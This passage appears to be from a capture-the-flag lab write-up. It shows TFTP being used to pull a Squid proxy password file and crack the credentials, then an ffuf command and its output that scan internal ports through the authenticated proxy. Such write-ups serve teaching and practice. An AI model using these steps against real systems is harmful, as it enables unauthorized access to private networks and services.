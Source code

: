 - Port 69 is open and running - [[TFTP]].
- Port 5355 is a false-positive.

<hr>

# Exploitation

## Squid Proxy w/o credentials

- Accessing the squid proxy without credentials returns an unauthorised error.
- Nothing to do w/o credentials.

## TFTP - Getting Files

- With `TFTP`, we can request `Squid Proxy` configuration files. 
- We found a set of credentials in `/etc/squid/passwords` file, which we can crack and get `kalamari \ ihateseafood` .
- Now, with these, we can access squid proxy.

## Squid Proxy /w credentials

- Accessing `http://<SERVER_IP>:<PORT>` or `http://localhost:<PORT>` returns `403` or `503` for every port.
- Accessing `http://127.0.0.1:<PORT>` shows port 80 and port 58616 are open.

```shell
$ seq 1 65535 | ffuf -x http://kalamari:ihateseafood@10.10.10.21:3128 -u http://127.0.0.1:FUZZ -w - -o available_ports -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://127.0.0.1:FUZZ
 :: Wordlist         : FUZZ: -
 :: Output file      : available_ports
 :: File format      : json
 :: Follow redirects : false
 :: Calibration      : false
 :: Proxy            : http://kalamari:ihateseafood@10.10.10.21:3128
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

80                      [Status: 200, Size: 899, Words: 121, Lines: 28, Duration: 814ms]
58616                   [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 101ms]
:: Progress: [65535/65535] :: Job [1/1] :: 408 req/sec :: Duration: [0:02:47] :: Errors: 1 ::

```
